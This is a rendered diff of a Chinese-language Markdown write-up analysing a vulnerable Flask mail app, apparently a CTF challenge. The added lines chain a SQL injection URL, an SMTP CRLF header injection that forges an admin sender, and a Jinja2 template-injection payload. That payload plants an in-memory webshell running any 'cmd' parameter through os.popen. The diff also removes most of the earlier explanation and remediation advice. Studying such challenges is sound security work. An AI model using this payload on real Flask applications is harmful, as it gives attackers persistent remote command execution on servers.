

Before and after one commit to zkzhy/Hello-Git, a Markdown page: Flask安全分析.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Flask安全分析.md
+++ b/Flask安全分析.md
@@ -17,71 +73,35 @@
+### 步骤2: 构造包含SQL注入的URL
+```
+URL参数: http://ezmail.org:3000/news?id=0 union select "{{恶意模板表达式}}"
+```
+当管理员的代码访问这个URL时，SQL注入会触发，使数据库返回我们控制的模板表达式。
+
+### 步骤3: 构造模板注入Payload
+```
+{{url_for.__globals__['__builtins__']['eval']('app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get(\'cmd\') and exec(\'global CmdResp;CmdResp=__import__(\\\'flask\\\').make_response(__import__(\\\'os\\\').popen(request.args.get(\\\'cmd\\\')).read())\')==None else resp)',{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']})}}
+```
+
+这个Payload会：
+1. 访问Flask内部对象
+2. 执行Python代码
+3. 添加一个HTTP请求处理钩子
+4. 检查请求参数中是否有`cmd`参数
+5. 如果有，执行该命令并返回结果
+
+### 步骤4: 完整Payload组合
 ```
 url=http://ezmail.org:3000/news?id=0 union select "{{url_for.__globals__['__builtins__']['eval']('app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get(\'cmd\') and exec(\'global CmdResp;CmdResp=__import__(\\\'flask\\\').make_response(__import__(\\\'os\\\').popen(request.args.get(\\\'cmd\\\')).read())\')==None else resp)',{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']})}}";%0d%0aFrom: admin@ezmail.org&content=123
 ```
 
-### 2.2 攻击步骤详解
-
-1. **提交报告表单**
-   - 攻击者向`/report`路由提交带有恶意payload的表单
-   - URL参数中包含SQL注入、模板注入和SMTP头注入
-
-2. **SMTP头注入**
-   - 系统构造邮件时使用了不安全的字符串格式化
-   - `smtplib._quote_periods = lambda x: x`禁用了SMTP安全措施
-   - `%0d%0a`被解码为回车换行，注入新的`From: admin@ezmail.org`头
-   - 邮件被伪造成从admin自己发给自己
-
-3. **管理员访问触发**
-   - 当管理员访问`/admin`路由时
-   - 系统通过`get_subjects("admin", "p@ssword")`获取邮件
-   - 由于发件人是"admin@ezmail.org"，伪造的邮件被成功获取
-   - 系统读取邮件主题(含有SQL注入的URL)
-
-4. **SQL注入执行**
-   - `fetch_page_content`函数访问邮件主题中的URL
-   - `/news`路由处理请求，执行SQL查询：`SELECT title FROM news WHERE id = 0 UNION SELECT "{{...}}"`
-   - 查询返回包含模板注入代码的字符串
-   - HTTP响应码为200，`fetch_page_content`返回响应内容
-
-5. **模板注入执行**
-   - 返回的内容被插入到`render_template_string`函数中
-   - Flask的Jinja2模板引擎执行模板表达式
-   - 模板代码通过`url_for.__globals__`访问Flask内部对象
-   - `eval`函数执行恶意Python代码
-
-6. **内存马植入**
-   - 代码将匿名函数添加到Flask的`after_request_funcs`
-   - 该函数会检查请求中是否有`cmd`参数
-   - 如果有，执行该命令并返回结果
-   - 内存马持续存在直到应用重启
-
-7. **远程命令执行**
-   - 攻击者访问任意URL并添加`?cmd=任意命令`
-   - 内存马拦截请求并执行命令
-   - 命令执行结果被返回为HTTP响应内容
-
-## 3. 关键漏洞分析
-
-### 3.1 SQL注入漏洞
-
-在`/news`路由中：
-
-```python
-cursor.execute(f"SELECT title FROM news WHERE id = {news_id}")
+### 步骤5: 命令执行
+一旦内存马植入成功，只需访问任意页面并添加cmd参数即可执行命令：
+```
+http://ezmail.org:3000/任意路径?cmd=id
 ```
 
-漏洞点：
-- 使用字符串格式化直接拼接SQL语句
-- 没有使用参数化查询
-- 没有对用户输入进行过滤
+## 4. 源代码关键点分析
 
-修复方法：
-- 使用参数化查询：`cursor.execute("SELECT title FROM news WHERE id = ?", (news_id,))`
-- 验证输入类型：确保`news_id`是整数
-
-### 3.2 SMTP头注入漏洞
-
-在`/report`路由中：
-
+### SMTP注入点
 ```python
-smtplib._quote_periods = lambda x: x
+smtplib._quote_periods = lambda x: x  # 禁用安全转义
 mail_content = """From: ignored@ezmail.org\r\nTo: admin@ezmail.org\r\nSubject: {url}\r\n\r\n{content}\r\n.\r\n"""
````
Also changed, not shown: other parts of Flask安全分析.md (+123 -199 lines).
